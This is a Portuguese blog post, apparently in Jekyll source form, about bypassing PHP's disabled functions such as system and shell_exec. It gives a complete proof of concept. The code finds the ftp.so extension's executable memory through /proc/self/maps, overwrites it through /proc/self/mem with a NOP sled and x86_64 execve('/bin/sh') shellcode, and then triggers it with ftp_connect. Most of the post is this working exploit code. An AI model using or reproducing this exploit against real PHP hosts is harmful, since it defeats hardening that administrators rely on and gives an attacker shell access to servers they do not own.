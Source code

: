 ```yaml
---
layout: post
comments: true
title: "PHP bypass injetando shellcode"
---
```


Vou escrever sobre um jeito de injetar shellcode no php, e executar comandos
no sistema, burlando possiveis funções desabilitadas como system e shell_exec,
por exemplo, infelizmente essa tecnica não permite burlar todo o safe_mode
do php, porque tem a limitação do open_basedir, essa é unica limitação
propriamente dita, e se as funções para leitura de arquivo, e a função seek
também estiverem desabilitadas então não funciona.

-- show the code --

A tecnica funciona da seguinte maneira, o php vai carregar varias extensões 
na memoria, e ai vamos pegar o range de memoria de uma extensão qualquer,
e vamos sobrescrever com nops e com o shellcode, e no codigo php iremos
chamar uma função que corresponde a extensão sobrescrita, quando ela chamar a
lib que foi sobrescrita, BOOM, vai executar o shellcode.

## poc

{% highlight php %}
<?php

	/* getting address range of extesion */
	function get_extension_range($name){
		$maps = fopen("/proc/self/maps", "r");
		while(!feof($maps)){
			$line = fgets($maps);
			if( preg_match("/(\w+)-(\w+)\s*r-xp.*modules\/${name}.*/", $line, $matches) ){
				fclose($maps);
				return array(hexdec($matches[1]), hexdec($matches[2]));
			}
		}
		return array();
	}

	function generate_shellcode($range, $shellcode){
		$sc = str_repeat("\x90", $range[1]-$range[0]-strlen($shellcode));
		$sc .= $shellcode;
		return $sc;
	}

	function write_memory($position, $string){
		$mem = fopen("/proc/self/mem","w+");
		fseek($mem, $position);
		fwrite($mem, $string);
	}

	$range = get_extension_range("ftp.so");

	if(empty($range)){
		die("failed to find extension...");
	}

	/* execve("/bin/sh", ["/bin/sh"], NULL) for linux x86_64 */
	$shellcode = "\x48\x31\xff\x48\xf7\xe7\xb0\x3b\x48\xbf\x66".
			 "\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08".
			 "\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

	$shellcode_with_nops = generate_shellcode($range, $shellcode);
	write_memory($range[0], $shellcode_with_nops);


	/* call extension to exec shellcode */
	ftp_connect("matrix");



?>
{% endhighlight %}
<script type="text/javascript" src="https://asciinema.org/a/83869.js" id="asciicast-83869" async></script>
